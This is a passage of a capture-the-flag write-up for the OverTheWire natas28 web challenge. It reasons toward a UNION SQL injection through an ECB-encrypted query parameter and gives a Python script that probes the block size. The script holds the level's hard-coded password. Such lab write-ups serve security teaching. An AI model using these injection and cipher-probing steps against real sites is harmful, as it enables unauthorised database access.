 ### natas28

When I search with fixed value `query=a`, the response generate random 3 sentences (maybe `LIMIT 3` in SQL), look like that:

```
Whack Computer Joke Database

    Q: How many programmers does it take to change a light bulb?
    A: None. It's a hardware problem.
    There are 10 kinds of people in the world: Those that know binary & those that don't
    Q: What is a computer virus?
    A: A terminal illness!
```

Try search with another query value, such as: `query=aaaaa`, we don't have anything in the response. Maybe there is no `aaaaa` string in the SQL databse.

Try repeat search with unique query value, such as: `query=illness`, we have only 1 sentence:

```
Q: What is a computer virus?
A: A terminal illness!
```

Hmm, maybe this challenge used query `SELECT joke from database WHERE joke LIKE '%<input>%'` and show result in browser. This query will finds any values that have "<input>" in any position. So we can use `UNION` operator to combine the result-set of two `SELECT` statements, one is my SQL injection.


But the parameter in URL `?query=G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKriAqPE2%2B%2BuYlniRMkobB1vfoQVOxoUVz5bypVRFkZR5BPSyq%2FLC12hqpypTFRyXA%3D` look like cipher based base64 encode.

If I remove some characters in parameter `query`, I got the following error: `Incorrect amount of PKCS#7 padding for blocksize` -> this is invalid paddding in block cipher, read [ECB](https://github.com/hoangph3/web-security/blob/main/crypto/README.md) first.

First, we need brute-force to find block size.

```python
#!/usr/bin/python3
import requests
from urllib.parse import urlparse, unquote

url = "http://natas28.natas.labs.overthewire.org/index.php"
auth_username = "natas28"
auth_password = "JWwR438wkgTsNKBbcJoowyysdM82YjeF"

text = 'a'

while len(text) < 50:
    data = {"query": text}
    r = requests.post(url, data=data, auth=(auth_username,auth_password))
    print("len:{}\tcipher:{}".format(len(text), unquote(r.url.split('=')[-1])))
    text += 'a'
```
